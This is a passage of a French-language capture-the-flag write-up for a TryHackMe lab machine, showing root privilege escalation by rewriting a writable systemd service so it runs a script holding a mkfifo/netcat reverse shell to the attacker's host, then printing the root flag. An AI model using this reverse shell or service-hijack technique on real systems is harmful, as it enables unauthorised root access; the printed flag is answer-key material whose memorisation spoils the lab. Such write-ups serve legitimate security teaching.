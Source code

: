 
On a les droits en écriture sur le fichier.  
Le fichier peut exécuter des commandes avec ExecStart.  

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
serv-manage@vulnnet-node:/dev/shm/noraj$ 

serv-manage@vulnnet-node:/dev/shm/noraj$ cp /etc/systemd/system/vulnnet-job.service /tmp/
serv-manage@vulnnet-node:/dev/shm/noraj$ sed -i 's/\/bin\/df/\/tmp\/shell/g' /tmp/vulnnet-job.service
serv-manage@vulnnet-node:/dev/shm/noraj$ cp /tmp/vulnnet-job.service /etc/systemd/system/vulnnet-job.service


```

On copie le fichier dans tmp car sed à besoins d'un repertoire ou il peut écrire.  
On modifie le fichier pour qu'il puisse lire le fichier \/root\/root.txt et qu'il écrit le contenu dans un endroit où on peut le lire.  
On recopie le fichier modifier on bon endroit.   

```bash
serv-manage@vulnnet-node:/tmp$ cat > shell << EOF
cat > shell << EOF
> #!/bin/bash
#!/bin/bash
> rm /tmp/g;mkfifo /tmp/g;cat /tmp/g|/bin/sh -i 2>&1|nc 10.9.228.66 1337 >/tmp/g
> EOF
EOF

serv-manage@vulnnet-node:/tmp$ chmod +x shell
chmod +x shell
```

Création du shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1337
listening on [any] 1337 ...
```

On écoute sur le port 1337, pour obtenire le reverse shell.   

```bash
serv-manage@vulnnet-node:/dev/shm/noraj$ sudo /bin/systemctl stop vulnnet-auto.timer
imer /bin/systemctl stop vulnnet-auto.ti
serv-manage@vulnnet-node:/dev/shm/noraj$ sudo /bin/systemctl daemon-reload
sudo /bin/systemctl daemon-reload
serv-manage@vulnnet-node:/dev/shm/noraj$ sudo /bin/systemctl start vulnnet-auto.timer
timer/bin/systemctl start vulnnet-auto.t
```

On recharge notre demon, qui exécute notre shell.    

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.9.228.66] from (UNKNOWN) [10.10.202.168] 34848
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt 
THM{abea728f211b105a608a720a37adabf9}
```

On obtient un shell avec les droits root.    
On peut lire le fichier root.txt.  

La réponse est : THM{abea728f211b105a608a720a37adabf9}   